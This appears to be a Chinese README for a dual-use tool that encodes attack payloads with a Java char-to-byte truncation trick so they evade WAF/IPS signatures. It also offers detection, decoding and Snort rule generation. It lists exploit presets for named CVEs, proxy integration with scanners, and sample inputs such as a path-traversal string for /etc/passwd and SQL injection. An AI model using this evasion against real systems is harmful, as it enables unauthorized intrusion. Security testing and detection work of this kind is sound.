




# GhostBits Encoder

基于 Black Hat Asia 2026 披露的 Ghost Bits 编码绕过技术，构建的专业级 payload 生成与检测工具。

## 演示

### Payload 编码


### 漏洞预设


### Ghost Bits 检测


### 预设列表


## 背景

Ghost Bits 利用 Java 中 `char`（16-bit）到 `byte`（8-bit）强制转换时高 8 位被截断的特性，构造出能绕过 WAF/IPS 签名检测的攻击载荷。安全设备看到的是无害 Unicode 字符，Java 后端截断高位后还原出完整攻击 payload。

理论来源：[Black Hat Asia 2026 - Cast Attack: Ghost Bits](https://i.blackhat.com/Asia-26/Presentations/Asia-26-Bai-Cast-Attack-Ghost-Bits-4.23.pdf)

## 功能

### 攻击面（红队）
- **Payload 编码**：将任意 ASCII payload 转换为 Ghost Bits 编码形式
- **多字符集伪装**：GB2312 常用汉字、拉丁/希腊/西里尔文、CJK 扩展、全随机
- **多输出格式**：原始 Unicode、`\uXXXX` 转义、`%uXXXX` URL 编码、混合编码
- **漏洞预设**：覆盖 Spring 目录穿越、Fastjson RCE、SMTP 走私、GeoServer RCE、Tomcat 文件上传等
- **批量模式**：从文件读取多条 payload 批量编码
- **管道友好**：支持 stdin/stdout，可集成到自动化工具链

### 防御面（蓝队）
- **检测模式**：分析输入流量是否包含 Ghost Bits 编码特征
- **解码还原**：将 Ghost Bits 编码还原为实际执行的 ASCII payload
- **规则生成**：输出 Snort/Suricata 检测规则建议

## 安装

```bash
# 无外部依赖，纯标准库实现
python3 ghostbits.py --help
```

## 使用

### 编码模式（默认）

```bash
# 基础用法 - 编码单条 payload
python3 ghostbits.py encode -p "1 or 1=1"

# 指定伪装字符集和输出格式
python3 ghostbits.py encode -p "../../../etc/passwd" -c cjk -f percent

# 使用漏洞预设
python3 ghostbits.py encode --preset spring-traversal
python3 ghostbits.py encode --preset fastjson-rce
python3 ghostbits.py encode --preset geoserver-rce

# 批量编码
python3 ghostbits.py encode --batch payloads.txt -o encoded_output.txt

# 管道模式
echo "SELECT * FROM users" | python3 ghostbits.py encode -f unicode
```

### 检测模式

```bash
# 检测请求是否包含 Ghost Bits 特征
python3 ghostbits.py detect -i suspicious_request.txt

# 解码还原
python3 ghostbits.py decode -p "编码后的字符串"

# 从 access log 批量扫描
python3 ghostbits.py detect --scan access.log
```

### 规则生成

```bash
# 生成 Snort 规则
python3 ghostbits.py rules --format snort

# 生成正则表达式检测模式
python3 ghostbits.py rules --format regex
```

## 漏洞预设列表

| 预设 ID | 目标 | CVE |
|---------|------|-----|
| `spring-traversal` | Spring Framework 目录穿越 | CVE-2025-41242 |
| `spring4shell` | Spring4Shell RCE | CVE-2022-22965 |
| `fastjson-rce` | Fastjson 反序列化 | — |
| `geoserver-rce` | GeoServer OGC Filter RCE | CVE-2024-36401 |
| `tomcat-upload` | Tomcat 文件上传绕过 | — |
| `smtp-smuggling` | SMTP 邮件走私 | — |
| `openfire-auth` | Openfire 认证绕过 | CVE-2023-32315 |
| `sqli-basic` | 通用 SQL 注入 | — |
| `xss-basic` | 通用 XSS | — |

## 架构

```
ghost-bits/
├── README.md
├── ghostbits.py          # 主入口，CLI 接口
├── engine.py             # 核心编码/解码引擎
├── presets.py            # 漏洞预设定义
├── detector.py           # 检测与解码模块
├── rules.py              # 防御规则生成
├── proxy.py              # HTTP 代理（扫描器集成）
└── integrations.py       # Nuclei/Xray 模板转换 & 字典生成
```

## 扫描器集成

### HTTP 代理模式（推荐）

启动 Ghost Bits 编码代理，扫描器流量经过代理时自动编码攻击载荷：

```bash
# 启动代理
python3 proxy.py -p 8888 -c gb2312 --mode selective

# nuclei 使用代理
nuclei -proxy http://127.0.0.1:8888 -t templates/ -u http://target.com

# xray 使用代理
xray webscan --proxy http://127.0.0.1:8888 --url http://target.com

# sqlmap 使用代理
sqlmap -u "http://target.com/?id=1" --proxy=http://127.0.0.1:8888

# burpsuite: Settings → Network → Connections → Upstream Proxy → 127.0.0.1:8888
```

编码模式：
- `selective`（默认）：只编码匹配攻击特征的参数，低误报
- `aggressive`：对所有参数值编码，高覆盖
- `full`：全部编码，极端模式

### Nuclei 模板转换

```bash
# 转换单个模板
python3 integrations.py nuclei -i template.yaml -o encoded.yaml

# 批量转换目录
python3 integrations.py nuclei -d nuclei-templates/cves/ -o encoded_templates/
```

### Fuzz 字典生成

```bash
# 编码字典
python3 integrations.py wordlist -i sqli-payloads.txt -o sqli_ghostbits.txt

# 生成多种编码变体（7 种组合）
python3 integrations.py wordlist -i payloads.txt --variants -o variants/
```

## 注意事项

- 本工具仅用于授权安全测试和防御研究
- 使用前确保已获得目标系统的书面授权
- 生成的 payload 应在隔离环境中验证

---

*东方隐侠安全团队 · 2026-05*
